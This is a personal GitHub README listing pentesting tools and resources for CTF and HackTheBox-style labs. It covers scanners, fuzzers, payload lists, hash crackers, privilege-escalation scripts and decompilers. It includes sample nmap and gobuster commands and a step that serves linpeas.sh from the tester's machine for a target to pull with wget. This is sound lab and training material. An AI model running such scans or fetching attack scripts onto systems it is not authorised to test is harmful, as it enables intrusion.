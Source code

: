 # cow-tools

![](https://upload.wikimedia.org/wikipedia/en/thumb/9/9a/Cow_Tools_cartoon.png/220px-Cow_Tools_cartoon.png)

A collection of the pentesting tools and resources I've found and made use of over the years, and maybe some of my own!?

Many of these tools are prebuilt into Kali, and will not need to be installed.

## VMs
- [Kali VMWare](https://www.kali.org/get-kali/#kali-virtual-machines) - Easy images for VM usage. I prefer this over everything and I've frequently wiped VMs with utter disregard.

## General Resources
- [HackTricks](https://book.hacktricks.wiki/en/index.html) - My favorite general hacking wiki. Has awesome documentation for many attack vectors.
- [HackTricks Cloud](https://cloud.hacktricks.wiki/en/index.html) - Hacktricks, but for cloud! Good docs on things like CI/CD, Terraform, and Kubernetes.
- [IppSec](https://www.youtube.com/@ippsec) - Great Youtube channel with HTB writeups. Nice to look at as retros after box completion.
- [Exploit DB](https://exploit-db.com) - List of exploits and PoCs, perfect for when you find a vulnerable service.

## Recon & Discovery
- [Nmap](https://nmap.org/) - A classic and mainstay. Most useful and easiest to work with port and network scanner.
  > Very aggro scan: `$ nmap -sS -A -T 5 10.0.0.0`
  >
  > More calm scan: `$ nmap -sS 10.0.0.0`
  >
  > All ports: `$ nmap -sS 10.0.0.0 -p-`
- [Gobuster](https://github.com/OJ/gobuster) - Web app fuzzer, I get a crazy amount of use out of this one. Great for subdomain and dir enumeration.
  > Directory discovery: `$ gobuster dir --url http://site.htb --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`
  >
  > Subdomain/VHost discovery: `$ gobuster vhost --append-domain http://site.htb --wordlist /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt`
- [WhatWeb](https://github.com/urbanadventurer/WhatWeb) - Web app scanner, useful for finding vulnerable versions of software hosting the webapp.
- [FeroxBuster](https://github.com/epi052/feroxbuster) - Quick recursive directory fuzzer.

## Web App
- [Burp Suite](https://portswigger.net/burp) - Web app proxy and repeater for easy introspection and modification of HTTP requests.
- [JWT.io](https://jwt.io) - JWT token parsing and decoding, great for finding token injection parameters or low RSA N values to crack.
- [XSS Payload List](https://github.com/payloadbox/xss-payload-list) - Useful list of common XSS payloads.
- [MITMProxy](https://mitmproxy.org/) - Easy HTTP proxy for port forwarding a localhost webserver.
- [Reverse Shell Generator](https://www.revshells.com/) - Easy way to get a shell made, has many options for style and encoding.
- [Git Dumper](https://github.com/arthaud/git-dumper) - Easily dump git repos from the web

## SQLi
- [SQLMap](https://sqlmap.org/) - Aggressive SQLi finder. Do not use this outside of CTF/OSCP/HTB.

## Scripting
- [PWNTools](https://docs.pwntools.com/en/stable/) - Python library for automating binary exploitation scripts and other CTF related tasks.

## Cryptography
- [HashCat](https://hashcat.net/wiki/doku.php?id=example_hashes) - Hash cracking tool for a variety of hashes.
- [CyberChef](https://gchq.github.io/CyberChef/) - Best online encoding and text parsing. Useful for base64, parsing certs, etc.
- [CrackStation](https://crackstation.net/) - Cached cracked passwords, easy for simple ones like SHA256 and MD5 that may have been popped in breaches. Great for HTB.
- [RSACTFTool](https://github.com/RsaCtfTool/RsaCtfTool) - RSA breaking tool, great for ciphers with weak N values.
- [Alpertron's Integer Factorization Calculator](https://www.alpertron.com.ar/ECM.HTM) - Easily factorize massive integers with elliptic curve or quadtratic sieve.

## Wordlists
- [SecLists](https://github.com/danielmiessler/SecLists) - Favorite wordlists! This has all kinds of stuff for web fuzzing, local directories, etc.
- [RockYou2021](https://github.com/ohmybahgosh/RockYou2021.txt) - Big collected wordlist featuring seclists, crackstation, and more.
- [OneRuleToRuleThemAll](https://github.com/NotSoSecure/password_cracking_rules/blob/master/OneRuleToRuleThemAll.rule) - Massive Hashcat cracking rule for special password combo attacks.

## Privelege Escalation

### OS Agnostic
- Python HTTP Server - I get a crazy ammount of use out of this to pull down files from my box.
  > Start server: `$ python3 -m http.server 80`
  >
  > Pull file: `wget http://10.10.14.7/linpeas.sh`

### Linux
- [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) - Privesc automation script. Easily find curious things to exploit.
- [GTFOBins](https://gtfobins.github.io/) - Easily exploitable bins to live off the land with. Good for finding SUID exploits.

### Windows
- [WinPEAS](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md) - Windows privesc automation script. Easily find curious things to exploit.
- [LOLBas](https://lolbas-project.github.io/) - Live off the land with local Windows scripts to get priveleged.

## Reverse Engineering
- [jd-gui](https://java-decompiler.github.io/) - Java decompilation. Perfect for .class files.
- [dnSpy](https://github.com/dnSpy/dnSpy) - Windows dotnet, c# decompilation tool. Nice for DLL files too.
- [Ghidra](https://ghidra-sre.org/) - NSA made disassembly tool. Works well for C, but has a hard time with Rust.
- [Binary Ninja](https://binary.ninja/) - Web based disassembler, sometimes can get results that are hard to find in Ghidra. Much better for rust.
